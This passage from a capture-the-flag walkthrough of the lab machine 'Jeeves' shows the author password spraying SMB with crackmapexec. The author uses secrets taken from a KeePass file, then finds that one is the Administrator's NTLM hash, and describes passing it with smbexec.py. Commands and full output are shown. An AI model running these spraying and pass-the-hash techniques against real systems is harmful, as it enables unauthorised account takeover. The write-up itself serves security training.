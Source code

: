 From here, I performed a password spraying attack with `crackmapexec` against all known users:

```none
$ crackmapexec smb 10.10.10.63 -u usernames.txt -p passwords.txt
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:JEEVES) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke:Password STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke:12345 STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke:F7WhTrSFDKB6sxHU1cUn STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke:pwndyouall! STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke:lCEUnYPjNfIuPZSzOySA STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke:S1TjAtJHKsugh9oC4VZl STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke: STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke:aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\Administrator:Password STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\Administrator:12345 STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\Administrator:F7WhTrSFDKB6sxHU1cUn STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\Administrator:pwndyouall! STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\Administrator:lCEUnYPjNfIuPZSzOySA STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\Administrator:S1TjAtJHKsugh9oC4VZl STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\Administrator: STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\Administrator:aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 STATUS_LOGON_FAILURE
```

None of the secrets worked as passwords for my list of users. However, I noticed that the last secret in the `.kdbx` file looked like an NTLM hash.
I ran `crackmapexec` with the hash against the list of users again just to realize that I compromised the Administrator's hash:

```none
kali@kali:~/htb/boxes/jeeves/privesc$ crackmapexec smb 10.10.10.63 -u usernames.txt -H hashes.txt
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:JEEVES) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [+] JEEVES\Administrator aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
```

I then passed the hash with impacket's `smbexec.py` to get a remote Administrator console session, fully compromising the system:
